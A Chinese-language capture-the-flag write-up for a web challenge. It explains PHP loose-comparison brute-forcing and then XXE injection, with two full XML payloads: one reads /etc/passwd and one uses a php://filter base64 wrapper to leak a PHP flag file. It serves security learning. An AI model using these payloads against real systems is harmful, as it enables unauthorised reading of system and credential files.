

# 性感黄阿姨在线聊天
## 考察知识点：
### 1.php弱类型
### 2.json引申xxe漏洞攻击

## 解题思路
### 1. 随便发送数据测试，发送flag时，感觉有蹊跷，抓包查看一下


### 2. 将数据包中的guest,改为admin

发现提示：`{"response":"admin\u4e5f\u4e0d\u884c! \/\/if($name==md5($flag)){flag in ...}"}`

如果发送的name\==md5(flag)则告诉我们flag的位置，此处我们只能考虑php的弱类型，刚好也有个==

大致思路:就是爆破name，只要md5(flag)的前几位为数字，爆破name，就能绕过限制，没看wp真没想出来

当name=357时，返回flag文件。那下一步思路就是进行文件读取。


一些弱类型的小测试：


### 3.文件读取有几个思路
#### 3.1 命令执行，代码执行
#### 3.2 文件包含伪协议
#### 3.3 xxe
#### 3.4 ....
### 4.此处发送的数据包为json数据，由json可以联想到xml数据是否也能解析


看来是解析了，此处没有返回flag文件的路径是因为xml文件的字段为字符串，'357'与'375abc'不相等。

### 5.构造xxe
payload:
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE xxe[
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
   <root>
     <name>&xxe;</name>
     <request>flag</request>
   </root>
```


直接读取f14g_Is_Here.php文件读取不出来，因为php文件中含有<特殊符号，xml解析时报错了

这里可以采用伪协议：

payload：
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE xxe[
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=./_f14g_Is_Here_.php">
]>
   <root>
     <name>&xxe;</name>
     <request>flag</request>
   </root>
```


### 6.解码得到flag
